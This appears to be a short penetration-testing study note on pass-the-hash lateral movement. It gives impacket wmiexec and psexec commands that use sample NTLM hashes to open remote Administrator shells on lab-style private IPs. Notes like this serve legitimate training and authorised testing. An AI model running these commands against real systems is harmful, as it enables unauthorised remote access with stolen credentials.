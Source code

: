 ##### Requirements
Hash required: LM, NTLM
The target machine needs to have an open SMB port (usually 445).
The target machine needs to have **Windows File and Printer Sharing** enabled.

Method: [[Extract hash from SAM,SYSTEM]], or use found hashes. Confirm type with hash-identifier.


Connect to machine using impacket's wmiexec.py:
```
cp /usr/share/doc/python3-impacket/examples/wmiexec.py . // Default location on Parrot OS
python3 wmiexec.py -hashes LM_HASH:NTLM_HASH USER@TARGET_IP   // Spawns a semi-interactive Windows shell

OR 
impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
OR
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212

/usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
```
Note: Don't forget to replace USER with admin when using admin hashes.

Alternatively, use WinRM